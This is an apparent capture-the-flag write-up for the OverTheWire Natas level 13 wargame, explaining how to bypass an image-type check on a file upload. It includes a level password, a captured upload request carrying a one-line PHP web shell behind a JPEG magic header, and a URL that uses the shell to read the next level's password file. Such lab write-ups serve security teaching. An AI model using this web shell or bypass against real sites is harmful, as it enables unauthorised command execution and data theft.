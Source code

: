 # Username
natas13

# Password
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

# Web Vulnerbility
Insecure file upload filter bypass

# Method of Solve
The goal is to upload a malicious file to gain access to the password. This is harder in this one thanks to this;
```
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```
However this does not stop burpe from burping.
Opening burpe then uploading a jpeg as normal to capture the request and send it to repeater.
you will get the following output
```
------WebKitFormBoundary536cq3WLFJYoKYcx
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundary536cq3WLFJYoKYcx
Content-Disposition: form-data; name="filename"

v35i1iamet.jpg
------WebKitFormBoundary536cq3WLFJYoKYcx
Content-Disposition: form-data; name="uploadedfile"; filename="shell.jpg"
Content-Type: image/jpeg

ÿØÿà
<?php system($_GET['cmd']); ?>

------WebKitFormBoundary536cq3WLFJYoKYcx--
```
from here we change 'v35i1iamet.jpg' to 'v35i1iamet.php', if your jpg doesn't have code already you can add it
under 'ÿØÿà' as seen above. 
Then we just sent the request then access using browser using following URL
```
http://natas13.natas.labs.overthewire.org/upload/sdny7vpeiq.php?cmd=cat%20/etc/natas_webpass/natas14
```
which will then reveal sensitive information

